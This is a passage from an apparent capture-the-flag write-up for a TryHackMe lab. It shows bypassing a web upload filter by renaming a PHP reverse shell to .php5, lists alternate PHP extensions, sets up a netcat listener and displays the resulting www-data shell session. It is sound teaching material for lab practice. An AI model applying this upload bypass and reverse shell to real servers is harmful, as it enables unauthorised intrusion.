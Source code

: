 ![](https://i.imgur.com/BOkmwPK.png)

Once you've found the POST request we can right-click and select "Sent to Intruder" or press `Ctrl`{: .key}+`I`{:.key}

Now here I won't explain how to use Intruder for the sake of brevity on this post. That said, be sure to check out the [TryHackMe Burpsuite room](https://tryhackme.com/room/rpburpsuite) for a more detailed explanation on Intruder and many other features within Burpsuite.

Essentially what I did in this process is test various file extensions against the upload form to see which ones are allowed and disallowed. One particular file extension that stood out is `php5`. This allows us to still upload `php` code in our reverse shell but under a alternate extension. For more info on this read this [Nullbyte article](https://null-byte.wonderhowto.com/how-to/bypass-file-upload-restrictions-web-apps-get-shell-0323454/). 

Other alternate `php` extensions include:

```console
.pht, .phtml, .php3, .php4, .php5, .php6, .inc
```

Now we'll rename our `shell.php` file to `shell.php5`. Also we will give execute permissions.

```console
# mv shell.php shell.php5
# chmod +x shell.php5
```

Okay so let's setup a listener.

**HOST**
```console
# nc -lvnp 9001               
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
```

**TARGET**
Now we'll try to upload our reverse shell again.

![](https://i.imgur.com/lzXsHD6.png)

Success! Now we click the file to run it and...

Wala! We have a shell!

```console
Ncat: Connection from 10.10.85.94.
Ncat: Connection from 10.10.85.94:37644.
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 06:12:17 up  1:17,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (933): Inappropriate ioctl for device
bash: no job control in this shell
www-data@rootme:/$ 
```
